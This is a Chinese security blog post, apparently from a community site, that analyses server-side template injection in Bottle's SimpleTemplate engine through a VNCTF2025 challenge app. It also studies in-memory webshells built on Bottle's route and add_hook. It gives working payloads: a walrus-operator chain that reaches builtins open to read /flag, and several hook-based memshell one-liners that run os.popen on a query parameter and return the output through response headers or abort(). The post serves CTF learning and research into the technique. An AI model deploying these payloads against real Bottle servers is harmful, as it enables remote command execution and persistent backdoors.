# SimpleTemplate 模板引擎ssti注入和内存马学习-先知社区

> **来源**: https://xz.aliyun.com/news/16942  
> **文章ID**: 16942

---

# 简介

Bottle自带了一个快速，强大，易用的模板引擎，名为 *SimpleTemplate* 或简称为 *stpl* 。它是 `view()` 和 `template()` 两个函数默认调用的模板引擎。

而SimpleTemplate类是继承了BaseTemplate类的

# 漏洞一：Bottle注入

## 如何检测框架



里面的函数可以帮我们检测一下框架



在vnctf2025的学生管理系统，题目描述说：”某个单文件框架“，搜索或者问 ai 都能知道 python 本体的单文件框架是 bottle 框架。 绕长度限制，题目主页面也有提示“一行一个名字”，输入

```
{{7*7}}%0a{{8*8}}
```

会发现回显 了 49 和 64。

```
import ast
import sys
from bottle import route, run, template, request


def verify_secure(m):
    for x in ast.walk(m):
        if isinstance(x, (ast.Import, ast.ImportFrom)):
            print(f"ERROR: Banned statement {x}")
            return False

        elif isinstance(x, ast.Call):
            if isinstance(x.func, ast.Name) and x.func.id == "__import__":
                print(f"ERROR: Banned dynamic import statement {x}")
                return False
    return True


def init_functions():
    # sys.modules['os'].popen = disabled
    sys.modules['os'].system = disabled
    sys.modules['time'].sleep = disabled


def disabled(*args, **kwargs):
    raise PermissionError("Use of function is not allowed!")


@route('/')
def index():
    return '''<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>学生姓名登记</title>

    <style>
        body {
            font-family: 'Arial', sans-serif;
            line-height: 1.6;
            color: #333;
            max-width: 600px;
            margin: 0 auto;
            padding: 20px;
            background-color: #f4f4f4;
        }
        .container {
            background-color: #fff;
            padding: 30px;
            border-radius: 8px;
            box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1);
        }
        h2 {
            color: #2c3e50;
            text-align: center;
            margin-bottom: 20px;
        }
        form {
            display: flex;
            flex-direction: column;
        }
        label {
            margin-bottom: 10px;
            font-weight: bold;
        }
        textarea {
            width: 100%;
            height: 150px;
            padding: 10px;
            border: 1px solid #ddd;
            border-radius: 4px;
            resize: vertical;
            font-size: 16px;
        }
        button {
            background-color: #3498db;
            color: #fff;
            border: none;
            padding: 10px 15px;
            font-size: 16px;
            border-radius: 4px;
            cursor: pointer;
            transition: background-color 0.3s ease;
        }
        button:hover {
            background-color: #2980b9;
        }
        .error {
            color: #e74c3c;
            margin-top: 10px;
        }
    </style>

</head>

<body>
    <div class="container">
        <h2>学生姓名登记</h2>

        <form action="/students" method="POST" id="studentForm">
            <label for="name">请输入学生姓名（一行一个）:</label>

            <textarea id="name" name="name" placeholder="张三" required></textarea>

            <button type="submit">提交</button>

        </form>

        <p id="errorMessage" class="error"></p>

    </div>

    <script>
        document.getElementById('studentForm').addEventListener('submit', function(e) {
            e.preventDefault();

            const namesInput = document.getElementById('name').value.trim();
            const names = namesInput.split('
').filter(name => name.trim() !== '');

            if (names.length === 0) {
                document.getElementById('errorMessage').textContent = '请至少输入一个学生姓名。';
                return;
            }

            document.getElementById('errorMessage').textContent = '';
            this.reset();
        });
    </script>

</body>

</html>

'''


def successhtml(name):
    success_html = """<!DOCTYPE html>
    <html lang="zh-CN">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Success</title>

        <style>
            body {
                font-family: 'Arial', sans-serif;
                background-color: #f0f2f5;
                margin: 0;
                padding: 0;
                display: flex;
                justify-content: center;
                align-items: center;
                height: 100vh;
            }
            .container {
                background-color: #ffffff;
                border-radius: 8px;
                box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
                padding: 30px;
                text-align: center;
                max-width: 400px;
                width: 90%;
            }
            .success-icon {
                color: #52c41a;
                font-size: 48px;
                margin-bottom: 20px;
            }
            h1 {
                color: #333;
                font-size: 24px;
                margin-bottom: 15px;
            }
            .message {
                color: #666;
                font-size: 16px;
                line-height: 1.5;
            }
            .student-name {
                font-weight: bold;
                color: #1890ff;
            }
            .back-button {
                background-color: #1890ff;
                color: white;
                border: none;
                padding: 10px 20px;
                font-size: 16px;
                border-radius: 4px;
                cursor: pointer;
                transition: background-color 0.3s;
                margin-top: 20px;
            }
            .back-button:hover {
                background-color: #40a9ff;
            }
        </style>

    </head>

    <body>
        <div class="container">
            <div class="success-icon">✔</div>

            <h1>Success</h1>

            <p class="message">
                <span class="student-name" id="studentName"></span>

            </p>

            <button class="back-button" onclick="goBack()">返回</button>

        </div>

        <script>
            const studentName = "张三";

            document.addEventListener('DOMContentLoaded', function() {
                const messageElement = document.getElementById('studentName');
                messageElement.innerHTML = `""" + "<b>学生 {} 的成绩录入成功！</b>".format(name) + """`;
            });

            function goBack() {
                window.location.href = '/'; 
            }
        </script>

    </body>

    </html>"""
    return success_html


@route('/students', method=['POST'])
def students():
    name = request.forms.name
    black_list = ['open', 'exec', 'eval', 'subprocess']
    for x in black_list:
        if x in name:
            return "Hacker!"

    temp = name.split("
")
    print(temp)
    for i in range(0, len(temp)):
        temp[i] = temp[i].replace('
', '').replace('\r', '')
        if len(temp[i]) > 23:
            return "<h1>谁家好人名字这么长？？</h1>"
    try:
        tree = compile(name, "temp.py", 'exec', flags=ast.PyCF_ONLY_AST)
    except:
        return successhtml(name)
    if verify_secure(tree):
        try:
            return template(successhtml(name))
        except:
            return successhtml(name)
    else:
        return "No import!"


init_functions()
run(host='localhost', port=8081, debug=True)
```

## python3.8+版本

由于3.8以后的版本可以利用海象符来进行赋值，那么就可以避免单行长度大于23了

```
{{a:=''}}
{{b:=a.__class__}}
{{c:=b.__base__}}
{{d:=c.__subclasses__}}
{{e:=d()[156]}}
{{f:=e.__init__}}
{{g:=f.__globals__}}
{{z:='__builtins__'}}
{{h:=g[z]}}
{{i:=h['op''en']}}
{{x:=i("/flag")}}
{{y:=x.read()}}
```

# 漏洞二：Bottle v0.13.2内存马学习

个人对内存马的学习，就是自定义一个路由，里面的路由调用了一个函数，而那个函数执行了什么内容，返回了啥，全由你自己决定，那么我们就可以利用这个特点，来执行命令了。

## 步骤一：路由

那么既然要找这个路由，我们就要先找哪个类的方法能去注册一个新的路由。



我们点进去看看route这个方法



然后他就会进入callable判断，

```
callable = lambda x: hasattr(x, '__call__')
```

如果 path 是一个可调用对象，例如一个函数、字符串……（这也许也是在阐述python万物皆对象吧）

则交换 path 和 callback 的角色，将原本作为 path 的值赋给 callback，并将 path 设置为 None

如果判断成功他就会调用

```
def makelist(data):  # This is just too handy
    if isinstance(data, (tuple, list, set, dict)):
        return list(data)
    elif data:
        return [data]
    else:
        return []
```

下面是我测试的结果

```
makelist([1, 2, 3])   # 返回 [1, 2, 3]  (已经是列表)
makelist((1, 2, 3))   # 返回 [1, 2, 3]  (元组转换为列表)
makelist({1, 2, 3})   # 返回 [1, 2, 3]  (集合转换为列表)
makelist('abc')       # 返回 ['abc']     (字符串被包装为单元素列表)
makelist(42)          # 返回 [42]        (整数被包装为单元素列表)
makelist(None)        # 返回 []          (空值返回空列表)
```

其实就是把元组，集合，字符串，字典，整数转换为列表，然后把空值返回空列表，总的来说就是不管你是啥，你传进去了什么，就都返回列表给你。

那么

```
if callable(path): path, callback = None, path
plugins = makelist(apply)
skiplist = makelist(skip)
```

这段代码在apply和skip为空的情况下，pluains和skiplist也都为空

然后往下看就知道剩下的代码定义了一个装饰器decorator函数，专门用来接收callback参数，然后下面一段都是生成路由的规则



## 步骤二：方法（method）

那么这个.route默认的方法是'GET',当然你也可以传一个POST进去

## 步骤三：callback

这里回扣到第一步，到底我们要传个什么样的值才能够成功生成一个函数呢？

所以我们目前需要探索的是如何不写一个完整的def的情况下自定义一个函数

这就不得不提到python自己默认自带的lambda表达式。

网上对

的讲解已经是非常深入了，这里就不再提咋用了。

简单的写一个

lambda : print(1)



```
app.route("/c","GET",lambda :print(1))
```

这里可以看到已经是成功了。

那么剩下的就是构造payload和绕waf的问题了。

这里我就放到后面再讲，写讲讲如果不走route方法还有哪些呢？

# hook类

在flask框架中，调用钩子非常常见，我也阅读了这部分代码



add\_hook有讲怎么去调用这些函数



这里就是看你传的是after\_request就调用insert，不是就调用其他的。



发现他后端会有，但是前端界面并不显示

## 在respond头回显

这里搜response



发现有好几个类都是以BaseResponse作为父类

```
bottle模块->BaseResponse::set_header -> _hval(value)
```





这里我们利用utf8加密，同时也利用base64加密一下内容。

```
/memshell?cmd=app.add_hook('before_request', lambda : __import__('bottle').response.set_header('X-Flag', __import__('base64').b64encode(__import__('os').popen("echo 1").read().encode('utf-8')).decode('utf-8')))
```

这里在/memshell执行成功之后



在/才能看到结果。

## abort方法妙用

bottle框架中的一个内置函数abort



直接就把异常给抛出来了，同时也是把结果给抛出来



```
poc:
app.add_hook('before_request', lambda: __import__('bottle').abort(404,__import__('os').popen(request.query.get('a')).read()))
```

## 总结hook类poc

上面只提到了before\_request，那么还有剩下的几个，看看能否打进内存马。

### after\_request

这个其实跟before\_request一样，可以直接调用的

```
/memshell?cmd=app.add_hook('after_request', lambda: __import__('bottle').abort(404,__import__('os').popen(request.query.get('a')).read()))
```

```
/memshell?cmd=app.add_hook('after_request', lambda : __import__('bottle').response.set_header('X-Result', __import__('base64').b64encode(__import__('os').popen("echo 1").read().encode('utf-8')).decode('utf-8')))
```

### app\_reset



根据源码这里，其实就是跟route挺像的

```
app.add_hook("app_reset",lambda :print(1))
```

开始我想着用这样来去添加，但最后发现不行，反复测试了好几次，感觉应该是不支持app\_reset这个钩子的

但是看到文档里面也是有写着的



还是太菜了，留给各位师傅挖掘吧。
